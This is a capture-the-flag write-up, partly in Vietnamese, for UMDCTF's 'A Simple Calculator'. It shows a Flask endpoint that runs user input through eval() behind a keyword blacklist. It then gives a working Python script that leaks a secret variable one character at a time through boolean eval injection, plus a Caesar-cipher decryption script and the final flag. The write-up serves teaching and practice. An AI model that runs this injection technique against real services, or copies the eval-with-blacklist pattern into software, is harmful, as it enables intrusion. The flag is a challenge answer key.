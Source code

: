 # UMDCTF - A Simple Calculator

*source code*: https://drive.google.com/file/d/1H-VvvdStKw6ReLB2BXHYw9Zu4YLb6qIy/view?usp=sharing

## Review source code
```python
# .....
from secrets import flag_enc, ws
#....
def z(f: str):
    for w in ws:
        if w in f:
            raise Exception("nope")
    return True
# .....
@app.route('/calc', methods=['POST'])
def calc():
    val = 0
    try:
        z(request.json['f'])
        val = f"{int(eval(request.json['f']))}"
# .....
```
File `secrets.py` có chứa `flag_enc` và `ws` được import vào `app.py`. `ws` có chứa các blacklist keyword đã được dấu khi trước khi public source-code. Server nhận f parameter đi qua hàm z, nếu trùng với blacklist thì sẽ trả về lỗi còn nếu không thì được đi vào `eval()`. 

Fuzz qua thì biết được hàm `ord()` và một số kí tự khác như `\` bị block nên không thể bypass hàm `z` hay đọc result dạng từng số ascii nên ta sẽ brute-foce `flag_enc` bằng cách cắt ra từng kí tự rồi so sánh từng cái thôi. 

**Python scripts**: Brute-force encrypted flag
```python
import requests
import string
url = 'https://calculator-w78ar.ondigitalocean.app/'
characters = string.ascii_letters + string.digits + string.punctuation
# val = f"{int(eval(request.json['f']))}"
flag = ''
for i in range(len(flag), 100):
    for c in characters:
        json = {
            "f": f"flag_enc[{i}:{i+1}] == '{c}'"
        }
        r = requests.post(url+'calc', json=json)
        result = r.json()['result']
        print(flag+c)
        if result == '1':
            flag += c
            print('[FOUND] : ' + flag)
            if c == '}':
                exit('done!')
            break
```

**encrypted flag**: `OGXWNZ{q0q_vlon3z0lw3cha_4wno4ffs_q0lem!}`

Flag nhận được đã bị encrypt bằng hàm `encrypt()` trong file `secrets.py`. 

**Python scripts**: Decrypt encrypted flag
```python
FLAG = 'OGXWNZ{q0q_vlon3z0lw3cha_4wno4ffs_q0lem!}'
def encrypt(text: str, key: int):
    result = ''
    for c in text:
        if c.isupper():
            c_index = ord(c) - ord('A')
            c_shifted = (c_index + key) % 26 + ord('A')
            result += chr(c_shifted)
        elif c.islower():
            c_index = ord(c) - ord('a')
            c_shifted = (c_index + key) % 26 + ord('a')
            result += chr(c_shifted)
        elif c.isdigit():
            c_new = (int(c) + key) % 10
            result += str(c_new)
        else:
            result += c
    return result
def reverse(c, er):
    a = ord(c) - ord(er)
    if a >= 20:
        result = a - key + ord(er)
    else:
        result = a + 26 - key + ord(er)
    return chr(result)
def decrypt(text: str, key: int):
    result = ''
    for c in text:
        if c.isupper():
            result += reverse(c, 'A')
        elif c.islower():
            result += reverse(c, 'a')
        elif c.isdigit():
            c_new = (int(c) + key) % 10
            result += str(c_new)
        else:
            result += c
    return result
def find_key():
    for i in range(100):
        if encrypt('UMDCTF', i) == 'OGXWNZ':
            return i
key = find_key()
print(f'[KEY FOUND] : ' + str(key))
flag_dec = decrypt(FLAG, key)
flag_enc = encrypt(flag_dec, key)
print(flag_dec)
print(flag_enc)
```

**flag**: `UMDCTF{w0w_brut3f0rc3ing_4ctu4lly_w0rks!}`
